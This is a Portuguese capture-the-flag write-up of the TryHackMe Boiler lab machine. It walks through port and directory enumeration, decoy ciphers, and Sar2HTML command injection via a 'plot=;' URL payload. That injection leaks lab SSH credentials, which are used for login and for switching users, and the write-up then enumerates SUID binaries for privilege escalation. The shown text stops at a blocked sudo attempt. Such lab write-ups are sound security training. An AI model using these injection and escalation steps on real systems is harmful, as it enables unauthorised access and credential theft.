# 🧭 Boiler CTF — CTF Writeup
### TryHackMe | Rabbit Holes · Sar2HTML RCE · Vazamento de Credenciais · SUID Privesc

---

| **Analista**          | Mauricio Robert                                                                        |
|-----------------------|----------------------------------------------------------------------------------------|
| **Organização**       | Faculdade Impacta                                                                      |
| **Data do Relatório** | 30/09/2026                                                                             |
| **Data do Pentest**   | 29/09/2026 – 30/09/2026 (GMT-0300)                                                      |
| **Alvo**              | `10.67.158.226` (`Vulnerable`) — TryHackMe · Boiler CTF                                 |
| **Classificação**     | CONFIDENCIAL                                                                           |
| **Ferramentas**       | Nmap 7.99 · Gobuster 3.8.2 · FTP (cliente) · CyberChef · ChatGPT (auxílio a decodificação) · CrackStation |
| **Plataforma**        | TryHackMe — Máquina Vulnerável Standalone                                              |

---

## 🔍 Resumo Executivo

Este relatório documenta o comprometimento completo da máquina **Boiler CTF** (TryHackMe), um dos alvos mais conhecidos da plataforma por seu grande número de **rabbit holes** (becos sem saída deliberadamente colocados pelo autor da sala). O reconhecimento inicial via **Nmap** revelou FTP anônimo, um servidor Apache hospedando uma instalação **Joomla**, um painel **Webmin** e SSH em uma porta não padrão. A enumeração de diretórios via **Gobuster**, o `robots.txt` e o acesso FTP anônimo levaram a múltiplas pistas cifradas (Base64 duplo, ROT13, Cifra de César, hash MD5) que, ao serem decodificadas, se revelaram **trotes intencionais** do autor da sala — confirmando que "Enumeration is the key". O vetor real de comprometimento foi uma instalação vulnerável do **Sar2HTML 3.2.1**, permitindo **Remote Command Execution não autenticado**, usada para vazar um log do sistema contendo credenciais de um usuário. A partir daí, o acesso via **SSH** e a leitura de um script de backup (`backup.sh`) revelaram, em um comentário, a senha de um segundo usuário, permitindo movimento lateral e a captura da flag de usuário. Por fim, a enumeração de binários **SUID** revelou que `/usr/bin/find` possuía o bit SUID habilitado, permitindo a leitura do arquivo de flag de root com privilégios elevados, completando o comprometimento total do sistema.

---

## 🛠 Ferramentas Utilizadas

| Ferramenta                     | Versão  | Finalidade                                                                             |
|---------------------------------|---------|-------------------------------------------------------------------------------------------|
| **Nmap**                        | 7.99    | Varredura de portas e fingerprint de serviços                                          |
| **Gobuster**                    | 3.8.2   | Enumeração de diretórios na aplicação web (raiz e dentro de `/joomla/`)                  |
| **Cliente FTP**                 | -       | Acesso anônimo ao serviço FTP e download de arquivos                                    |
| **CyberChef**                   | -       | Decodificação de ROT13, Cifra de César (ROT13 brute force) e Base64 duplo               |
| **ChatGPT**                     | -       | Auxílio na decodificação de sequências ASCII decimal → Base64 → texto claro             |
| **CrackStation**                | -       | Quebra de hash MD5 obtido a partir da decodificação do `robots.txt`                      |
| **Exploit-DB (Sar2HTML RCE)**    | EDB-47204 | Referência da vulnerabilidade de execução remota de comandos explorada                |

---

## 📋 Fases de Comprometimento

### FASE 1 — Reconhecimento: Nmap

```bash
nmap -sV -sC -p21,80,10000,55007 10.67.158.226
```



```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http    Apache httpd 2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

Quatro serviços expostos: **FTP** com login anônimo habilitado, **HTTP** (Apache, com uma entrada em `robots.txt`), **Webmin** (painel administrativo na porta 10000) e **SSH** rodando em uma porta não convencional (**55007**, em vez da 22 padrão).

---

### FASE 2 — Enumeração Web: Gobuster

```bash
gobuster dir -u http://10.67.158.226/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 80
```



```
index.html   (Status: 200)
joomla       (Status: 301) [--> http://10.67.158.226/joomla/]
manual       (Status: 301) [--> http://10.67.158.226/manual/]
robots.txt   (Status: 200)
```

```bash
gobuster dir -u http://10.67.158.226/joomla/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 80
```

```
_database       (Status: 301) [--> http://10.67.158.226/joomla/_database/]
_archive        (Status: 301) [--> http://10.67.158.226/joomla/_archive/]
_files          (Status: 301) [--> http://10.67.158.226/joomla/_files/]
_test           (Status: 301) [--> http://10.67.158.226/joomla/_test/]
administrator   (Status: 301) [--> http://10.67.158.226/joomla/administrator/]
...
index.php       (Status: 200)
```

Uma instalação **Joomla** foi identificada, com vários diretórios não padrão prefixados por underscore (`_database`, `_archive`, `_files`, `_test`) — nomes que se revelariam, em sua maioria, **rabbit holes** deliberados, exceto por um deles.

---

### FASE 3 — Análise do `robots.txt` e Primeiras Pistas

```bash
curl http://10.67.158.226/robots.txt
```



```
User-agent: *
Disallow: /
/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071
086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104
078 084 069 049 079 068 081 075
```

Concatenando as entradas `Disallow` (`/yellow /not /a+rabbit /hole /or /is /it`), o próprio arquivo já entrega o tom da sala: **"yellow, not a rabbit hole, or is it?"** — um trocadilho proposital do autor. Abaixo, uma longa sequência de códigos ASCII em decimal parecia esconder mais uma pista a ser decodificada.

---

### FASE 4 — Decodificando o Primeiro Rabbit Hole (Hash MD5)

A sequência decimal do `robots.txt` foi processada: cada grupo de três dígitos convertido para seu caractere ASCII correspondente, formando uma string Base64, que por sua vez decodificava para um **hash MD5**:



```
1. Decimal ASCII → OTliMDY2MGNkOTVhZGVhMzI3YzU0MTgyYmFhNTE1ODQK
2. Base64        → 99b0660cd95adea327c54182baa51584
```

O hash resultante foi submetido ao **CrackStation**:

```
Hash: 99b0660cd95adea327c54182baa51584
Type: md5
Result: kidding
```

Depois de três camadas de decodificação, o resultado final era literalmente a palavra **"kidding"** ("brincadeirinha") — confirmando que essa trilha era, de fato, um rabbit hole.

---

### FASE 5 — Mais Rabbit Holes: `_database`, `_files` e FTP Anônimo

O diretório **`/joomla/_database/`** exibia um texto cifrado com **Cifra de César** (deslocamento de 2):



```
Lwuv oguukpi ctqwpf.  →  "Just missing around."
```

O diretório **`/joomla/_files/`** continha uma string em **Base64 duplo**:



```
VjJodmNITnBaU0JrWVdsemVWUmJ6MEs=  →  (Base64 x2)  →  "Whopsie daisy"
```

Por fim, o acesso **FTP anônimo** (identificado no Nmap) permitiu localizar e baixar um arquivo oculto:

```bash
ftp 10.67.158.226
ftp> ls -la
ftp> get .info.txt
```



```
Whfg jnagrq gb frr vs lbh svaq vg. Lby. Erzrzore: Rahzrengvba vf gur xrl!
```

Decodificado via **ROT13** no CyberChef:

```
Just wanted to see if you find it. Lol. Remember: Enumeration is the key!
```

Todos os quatro rastros (`_database`, `_files`, `robots.txt`/hash MD5 e `.info.txt` via FTP) eram **trotes proposital do autor da sala**, reforçando repetidamente a mesma mensagem: a enumeração completa era o verdadeiro caminho, não essas pistas cifradas.

---

### FASE 6 — Identificando a Vulnerabilidade Real: Sar2HTML 3.2.1

Diferente dos demais diretórios com prefixo underscore, o diretório **`/joomla/_test/`** não continha uma piada, mas sim uma instalação real da ferramenta **Sar2HTML**:



```
sar2html
COLLECTING SAR DATA
...
INSTALLATION
Plotting tools, sar2html and index.php only run on Linux server.
```

Uma pesquisa rápida confirmou que a versão **3.2.1** do Sar2HTML possui uma vulnerabilidade pública de **Remote Command Execution não autenticado** (EDB-ID 47204):



```
# Exploit Title: sar2html Remote Code Execution
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1

http://<ipaddr>/index.php?plot=;<command-here> will execute
the command you entered.
```

---

### FASE 7 — Exploração do RCE e Vazamento de Credenciais

Aplicando o payload documentado no Exploit-DB diretamente no parâmetro `plot`:

```
GET /joomla/_test/index.php?plot=;cat%20log.txt
```



```
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from
10.1.1.1 port 49824 ssh2 #pass: superduperp@$$no1knows
```

O comando injetado leu um arquivo de log do sistema, que continha (de forma acidental ou proposital) uma entrada de log de autenticação SSH revelando o **usuário `basterd`** e uma credencial associada.

---

### FASE 8 — Acesso Inicial via SSH e Descoberta do `backup.sh`

Com o usuário e a porta SSH não padrão (55007, identificada no Nmap) em mãos:

```bash
ssh basterd@10.67.158.226 -p 55007
```



```
$ id
uid=1001(basterd) gid=1001(basterd) groups=1001(basterd)
$ ls
backup.sh
$ cat backup.sh
REMOTE=1.2.3.4
SOURCE=/home/stoner
TARGET=/usr/local/backup
LOG=/home/stoner/bck.log
USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE
...
```

O script `backup.sh`, de propriedade de `basterd`, referenciava o usuário **`stoner`**, com uma linha comentada (`#superduperp@$$no1knows`) logo abaixo — quase certamente a **senha da conta `stoner`**, deixada como anotação pelo administrador.

---

### FASE 9 — Movimento Lateral: `basterd` → `stoner` (User Flag)

```bash
su stoner
```

```
Password: superduperp@$$no1knows
stoner@Vulnerable:/home/basterd$
```

Já como `stoner`, o diretório pessoal foi enumerado:

```bash
cd ~
ls -la
cat .secret
```



```
-rw-r--r-- 1 stoner stoner 34 Aug 21 2019 .secret

You made it till here, well done.
```

**Flag de usuário: `You made it till here, well done.`**

---

### FASE 10 — Enumeração de Binários SUID

```bash
find / -perm -u=s 2>/dev/null
```



```
/bin/su
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/apache2/suexec-custom
/usr/lib/openssh/ssh-keysign
/usr/bin/find      ← destaque
/usr/bin/at
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/pkexec
...
```

O binário **`/usr/bin/find`** com o bit **SUID** habilitado é um vetor de escalação de privilégios clássico e catalogado no GTFOBins: qualquer execução do `find` roda com o dono do arquivo (root), independentemente de quem o invoque.

---

### FASE 11 — Escalação de Privilégios e Captura da Root Flag

Uma primeira tentativa via `sudo` foi bloqueada por regras do `sudoers`:

```bash
sudo find /root/root.txt -exec cat {} \;
```
```
Sorry, user stoner is not allowed to execute '/usr/bin/find /root/root.txt -exec cat {} ;' as root on Vulnerable.
```

